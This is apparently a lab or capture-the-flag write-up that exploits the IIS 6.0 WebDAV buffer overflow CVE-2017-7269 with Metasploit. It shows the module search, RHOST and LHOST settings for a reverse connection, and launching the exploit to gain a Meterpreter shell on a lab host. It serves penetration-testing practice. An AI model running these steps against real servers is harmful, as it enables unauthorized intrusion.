







Service Exploited:
Microsoft IIS 6.0 
  
Vulnerability Type:
CVE-2017-7269


Exploit POC:

Description: 

A buffer overflow vulnerability exists in the ScStoragePathFromUrl function of the WebDAV service in Microsoft Internet Information Services (IIS) 6.0 on Windows Server 2003 R2. This issue allows remote attackers to run arbitrary code by sending a specially crafted PROPFIND request containing a long header that starts with `If: <http://`. The vulnerability was actively exploited in the wild around July–August 2016.


Discovery of Vulnerability

To exploit this vulnerability, we will search this CVE in Metasploit
```bash
$ msfconsole
```



Then we use;
```bash
$ search CVE-2017-7269
```



So we will use this exploit
```bash
$ use 0

$ options
```


```bash
$ set RHOST 10.129.95.233
$ et LHOST tun0
```


```bash
$ options
```




Once all the options are properly set, we launch the exploit.
```bash
$ exploit
```


Running the Metasploit module `iis_webdav_scstoragepathfromurl` provides an instant shell. The compromised system is identified as a 32-bit Windows Server 2003 host.

To make our work easier, we will switch the Meterpreter session to a shell.




[Back](README.md)